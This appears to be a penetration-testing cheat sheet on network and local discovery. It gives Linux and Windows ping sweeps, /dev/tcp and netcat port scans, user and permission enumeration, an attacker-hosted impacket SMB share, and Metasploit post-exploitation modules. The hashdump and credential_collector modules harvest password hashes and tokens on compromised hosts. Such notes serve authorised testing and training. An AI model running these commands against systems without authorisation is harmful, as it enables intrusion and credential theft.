 # Discovery

- [Discovery](#discovery)
  - [Linux](#linux)
    - [Network](#network)
  - [Windows](#windows)
    - [Network](#network-1)
    - [Local Recon](#local-recon)
      - [Enumerate users](#enumerate-users)
      - [Get directory/file perms](#get-directoryfile-perms)
      - [Get services permissions](#get-services-permissions)
      - [Connect into SMB server](#connect-into-smb-server)
      - [Using Meterpreter](#using-meterpreter)

## Linux

### Network

Enumerate all responding @IP of the network. Bash native.

```bash
# enumerate @IP
for i in {1..255}; do (ping -c 1 172.16.2.${i} | grep "bytes from" &); done

# enumerate open port for 1 @IP
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

## Windows

### Network

Get all responding Ip addresses using Windows native command:

```ps1
(for /L %a IN (1,1,254) DO ping /n 1 /w 1 172.16.2.%a) | find "Reply"
.\nc.exe -z -v 172.16.1.5 1-8000 # port using netcat
```

DNS / ARP / Routing Table / WiFi

```ps1
ipconfig /displaydns #DNS cache (Windows)
arp -a # ARP cache
netstat -na # Established TCP connections
netstat -nr # Routing table
netsh wlan show networks mode=b # Displays nearby wifi
nmcli dev show
```

**Path to the Windows hosts file**: `C:\Windows\System32\drivers\etc\hosts`

### Local Recon

#### Enumerate users

```bash
net users
net user <USERNAME>
```

#### Get directory/file perms

```bash
# using powershell
(Get-acl '<PATH>').access | ft IdentityReference,FileSystemRights,AccessControlType,IsInherited,InheritanceFlags -auto
```

#### Get services permissions

Download and upload the sysinternals tool: https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

```bash
.\accesschk64.exe /accepteula -ucqv <SERVICE_NAME>
```

> **Get-ServiceAcl.ps1:** https://gist.github.com/cube0x0/1cdef7a90473443f72f28df085241175

#### Connect into SMB server

```bash
# attacker
└─$ impacket-smbserver s . -smb2support -username toto -password coucou

# victim
net use X: "\\servername\share" /user:morgan password
```

#### Using Meterpreter

- **arp_scanner** : The arp_scanner post module will perform an ARP scan for a given range through a compromised host.

`run post/windows/gather/arp_scanner`

- **credential_collector** : The credential_collector module harvests passwords hashes and tokens on the compromised host.

`run post/windows/gather/credentials/credential_collector`

- **dumplinks** : The dumplinks module parses the .lnk files in a users Recent Documents which could be useful for further information gathering. Note that, as shown below, we first need to migrate into a user process prior to running the module.

`run post/windows/manage/migrate (optionnal migrate to a user PID)`
`run post/windows/gather/dumplinks`

- **enum_applications** : The enum_applications module enumerates the applications that are installed on the compromised host.

`run post/windows/gather/enum_applications` 

- **enum_logged_on_users** : The enum_logged_on_users post module returns a listing of current and recently logged on users along with their SIDs.

- **enum_shares** : The enum_shares post module returns a listing of both configured and recently used shares on the compromised system.

`run post/windows/gather/enum_shares`

- **enum_snmp** : The enum_snmp module will enumerate the SNMP service configuration on the target, if present, including the community strings.

`run post/windows/gather/enum_snmp`

- **hashdump** : The hashdump post module will dump the local users accounts on the compromised host using the registry.

`run post/windows/gather/hashdump`

- **local_exploit_suggester** : The local_exploit_suggester, or 'Lester' for short, scans a system for local vulnerabilities contained in Metasploit. It then makes suggestions based on the results as well as displays exploit's location for quicker access.

`use post/multi/recon/local_exploit_suggester`